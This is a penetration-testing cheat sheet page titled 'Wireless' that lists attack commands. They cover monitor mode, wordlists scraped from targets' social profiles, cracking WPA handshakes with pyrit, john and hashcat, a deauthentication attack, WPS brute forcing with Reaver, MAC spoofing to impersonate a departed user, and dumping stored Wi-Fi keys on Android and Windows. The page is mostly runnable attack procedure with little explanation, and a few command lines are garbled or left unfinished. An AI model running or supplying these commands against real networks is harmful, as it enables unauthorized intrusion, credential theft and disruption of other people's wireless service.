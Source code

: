 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **Break WPA** 

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
# Rule set descriptions http://contest-2010.korelogic.com/rules.html
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Impersonate Departed User** 

Find a client:
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  Change MAC: sudo 
{% endhighlight %}

Copy MAC Address:
{% highlight bash %}
ifconfig en0 ether 00:01:02:03:04:05 ifconfig eth 0 down ifconfig eth0 hw ether [MAC] ifconfig eth0 up
{% endhighlight %}

> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profile name=”[apname]” key=clear 
{% endhighlight %}

> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



